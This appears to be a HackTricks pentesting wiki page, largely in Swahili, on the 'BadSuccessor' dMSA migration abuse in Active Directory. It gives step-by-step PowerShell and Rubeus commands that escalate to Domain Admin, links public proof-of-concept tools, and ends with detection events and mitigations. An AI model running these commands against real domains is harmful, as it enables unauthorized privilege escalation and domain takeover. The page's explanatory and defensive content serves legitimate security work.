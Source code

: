 # BadSuccessor: Privilege Escalation via Delegated MSA Migration Abuse

{{#include ../../banners/hacktricks-training.md}}

## Overview

Delegated Managed Service Accounts (**dMSA**) ni kizazi kipya cha **gMSA** ambacho kinakuja na Windows Server 2025. Mchakato halali wa uhamishaji unaruhusu wasimamizi kubadilisha akaunti *ya zamani* (mtumiaji, kompyuta au akaunti ya huduma) na dMSA huku wakihifadhi ruhusa kwa uwazi. Mchakato huu unapatikana kupitia PowerShell cmdlets kama `Start-ADServiceAccountMigration` na `Complete-ADServiceAccountMigration` na unategemea sifa mbili za LDAP za **dMSA object**:

* **`msDS-ManagedAccountPrecededByLink`** – *DN link* kwa akaunti iliyotangulia (ya zamani).
* **`msDS-DelegatedMSAState`**       – hali ya uhamishaji (`0` = hakuna, `1` = inaendelea, `2` = *imekamilika*).

Ikiwa mshambuliaji anaweza kuunda **chochote** dMSA ndani ya OU na moja kwa moja kubadilisha hizo sifa 2, LSASS & KDC vitachukulia dMSA kama *mfuasi* wa akaunti iliyounganishwa. Wakati mshambuliaji anapojitambulisha kama dMSA **wanarithi ruhusa zote za akaunti iliyounganishwa** – hadi **Domain Admin** ikiwa akaunti ya Msimamizi imeunganishwa.

Tekniki hii ilitambulishwa kama **BadSuccessor** na Unit 42 mnamo 2025. Wakati wa kuandika **hakuna patch ya usalama** inapatikana; tu kuimarisha ruhusa za OU kunapunguza tatizo.

### Attack prerequisites

1. Akaunti ambayo *inaruhusiwa* kuunda vitu ndani ya **Organizational Unit (OU)** *na* ina angalau moja ya:
* `Create Child` → **`msDS-DelegatedManagedServiceAccount`** object class
* `Create Child` → **`All Objects`** (kuunda kwa jumla)
2. Muunganisho wa mtandao kwa LDAP & Kerberos (hali ya kawaida ya kujiunga na domain / shambulio la mbali).

## Enumerating Vulnerable OUs

Unit 42 ilitoa skripti ya msaada ya PowerShell inayochambua waelekezi wa usalama wa kila OU na kuonyesha ACEs zinazohitajika:
```powershell
Get-BadSuccessorOUPermissions.ps1 -Domain contoso.local
```
Chini ya uso, skripti inafanya utafutaji wa LDAP ulio na kurasa kwa `(objectClass=organizationalUnit)` na inakagua kila `nTSecurityDescriptor` kwa

* `ADS_RIGHT_DS_CREATE_CHILD` (0x0001)
* `Active Directory Schema ID: 31ed51fa-77b1-4175-884a-5c6f3f6f34e8` (daraja la kitu *msDS-DelegatedManagedServiceAccount*)

## Hatua za Ukatili

Mara tu OU inayoweza kuandikwa inapobainishwa, shambulio liko umbali wa maandiko 3 ya LDAP:
```powershell
# 1. Create a new delegated MSA inside the delegated OU
New-ADServiceAccount -Name attacker_dMSA \
-DNSHostName host.contoso.local \
-Path "OU=DelegatedOU,DC=contoso,DC=com"

# 2. Point the dMSA to the target account (e.g. Domain Admin)
Set-ADServiceAccount attacker_dMSA -Add \
@{msDS-ManagedAccountPrecededByLink="CN=Administrator,CN=Users,DC=contoso,DC=com"}

# 3. Mark the migration as *completed*
Set-ADServiceAccount attacker_dMSA -Replace @{msDS-DelegatedMSAState=2}
```
Baada ya kuiga, mshambuliaji anaweza tu **kuingia** kama `attacker_dMSA$` au kuomba TGT ya Kerberos – Windows itaunda token ya akaunti *iliyopitwa na wakati*.

### Utaftaji

PoCs kadhaa za umma zinajumuisha mchakato mzima ikiwa ni pamoja na urejeleaji wa nenosiri na usimamizi wa tiketi:

* SharpSuccessor (C#) – [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
* BadSuccessor.ps1 (PowerShell) – [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
* Moduli ya NetExec – `badsuccessor` (Python) – [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

### Baada ya Utekelezaji
```powershell
# Request a TGT for the dMSA and inject it (Rubeus)
Rubeus asktgt /user:attacker_dMSA$ /password:<ClearTextPwd> /domain:contoso.local
Rubeus ptt /ticket:<Base64TGT>

# Access Domain Admin resources
dir \\DC01\C$
```
## Detection & Hunting

Enable **Object Auditing** on OUs and monitor for the following Windows Security Events:

* **5137** – Uundaji wa **dMSA** object
* **5136** – Marekebisho ya **`msDS-ManagedAccountPrecededByLink`**
* **4662** – Mabadiliko maalum ya sifa
* GUID `2f5c138a-bd38-4016-88b4-0ec87cbb4919` → `msDS-DelegatedMSAState`
* GUID `a0945b2b-57a2-43bd-b327-4d112a4e8bd1` → `msDS-ManagedAccountPrecededByLink`
* **2946** – TGT utoaji kwa dMSA

Correlating `4662` (attribute modification), `4741` (creation of a computer/service account) and `4624` (subsequent logon) quickly highlights BadSuccessor activity.  XDR solutions such as **XSIAM** ship with ready-to-use queries (see references).

## Mitigation

* Apply the principle of **least privilege** – only delegate *Service Account* management to trusted roles.
* Remove `Create Child` / `msDS-DelegatedManagedServiceAccount` from OUs that do not explicitly require it.
* Monitor for the event IDs listed above and alert on *non-Tier-0* identities creating or editing dMSAs.

## See also

{{#ref}}
golden-dmsa-gmsa.md
{{#endref}}

## References

- [Unit42 – When Good Accounts Go Bad: Exploiting Delegated Managed Service Accounts](https://unit42.paloaltonetworks.com/badsuccessor-attack-vector/)
- [SharpSuccessor PoC](https://github.com/logangoins/SharpSuccessor)
- [BadSuccessor.ps1 – Pentest-Tools-Collection](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
- [NetExec BadSuccessor module](https://github.com/Pennyw0rth/NetExec/blob/main/nxc/modules/badsuccessor.py)

{{#include ../../banners/hacktricks-training.md}}
